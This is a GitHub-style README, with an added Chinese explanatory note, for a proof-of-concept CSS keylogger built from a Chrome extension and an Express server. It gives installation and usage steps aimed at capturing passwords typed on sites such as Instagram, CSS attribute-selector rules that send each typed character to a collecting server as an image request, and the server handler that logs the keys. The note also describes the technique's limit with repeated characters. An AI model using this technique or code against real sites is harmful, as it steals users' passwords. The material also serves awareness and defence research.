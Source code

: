 # CSS Keylogger

Chrome extension and Express server that exploits keylogging abilities of CSS.

## To use

### Setup Chrome extension

1. Download repository `git clone https://github.com/maxchehab/CSS-Keylogging`
2. Visit `chrome://extensions` in your browser (or open up the Chrome menu by clicking the icon to the far right of the Omnibox: The menu's icon is three horizontal bars. and select Extensions under the More Tools menu to get to the same place).
3. Ensure that the Developer mode checkbox in the top right-hand corner is checked.
4. Click `Load unpacked extension…` to pop up a file-selection dialog.
5. Select the `css-keylogger-extension` in the directory which you downloaded this repository.

### Setup Express server

1. `yarn`
2. `yarn start`

### Haxking l33t passw0rds

1. Open a website that uses a controlled component framework such as React. [https://instagram.com](https://www.instagram.com/).
2. Press the extension `C` on the top right of any webpage.
3. Type your password.
4. Your password should be captured by the express server.

## How it works

This attack is really simple. Utilizing CSS attribute selectors, one can request resources from an external server under the premise of loading a `background-image`.

For example, the following css will select all input's with a `type` that equals `password` and a `value` that ends with `a`.
It will then try to load an image from `http://localhost:3000/a`.

```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

Using a simple [script](https://github.com/maxchehab/CSS-Keylogging/blob/master/build.go) one can create a [css file](https://github.com/maxchehab/CSS-Keylogging/blob/master/css-keylogger-extension/keylogger.css) that will send a custom request for every ASCII character.


### 备注：

css 选择器加载外部资源，只能触发一次，例如：输入字母 ‘a’, 触发如下 css 代码

```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

在服务器端通过 `req.params.key` 获取到输入的内容

```js
app.get("/:key", (req, res) => {
  process.stdout.write(req.params.key);
  return res.sendStatus(400);
});
```

当再次输入字母 ‘a’ 时，上述的 css 代码并不会再次去请求外部资源，意味
着服务器端获取不到该次输入，最终的结果是只能捕获没有重复内容的密码。

例如：
输入|实际捕获
---|---
12345|12345
1014333|10143
123454321|12345


